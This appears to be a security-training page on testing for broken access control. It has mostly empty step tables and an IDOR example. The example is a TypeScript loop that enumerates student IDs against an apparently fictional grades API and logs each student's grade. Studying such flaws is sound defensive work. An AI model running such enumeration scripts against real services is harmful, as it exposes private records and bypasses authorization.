



## $\textnormal{Test for Broken Access Control}$

| Step 1: Setting the Stage |
| ------------------------- |
| Use a proxy interceptor, which is a tool that allows |
| users to modify and control the raw HTTP requests |
| between their browser and web applications. |

<br />

| Step 2: Intercepting the Request |
| -------------------------------- |
|  |

<br />

| Step 3: Modifying the Request |
| ----------------------------- |
|  |

<br />

| Step 4: Sending the Modified Request |
| ------------------------------------ |
|  |

<br />

| Step 5: Successful Attack |
| ------------------------- |
|  |

<br />
<br />


## $\textnormal{Insecure Direct Object Reference (IDOR) Vulnerabilities}$

> - The `GET /grades` route does not contain any access control <br />
    restrictions.



> - This means that an attacker could easily view the grades of <br />
    other students by guessing a valid student ID instead of their
    own.

```typescript
import axios from 'axios'

for (let id = 1111; id < 9999; id++) {
    axios
        .get('https://api.grades.patch.edu/grades?subjectid=1293&studentid=2022' + id)
        .then(res => {
            console.log("Student: 2022" + id + ", Grade: " + res.data.grade)
        })
        .catch(error => {
            console.error(error)
        }
    )
}
```
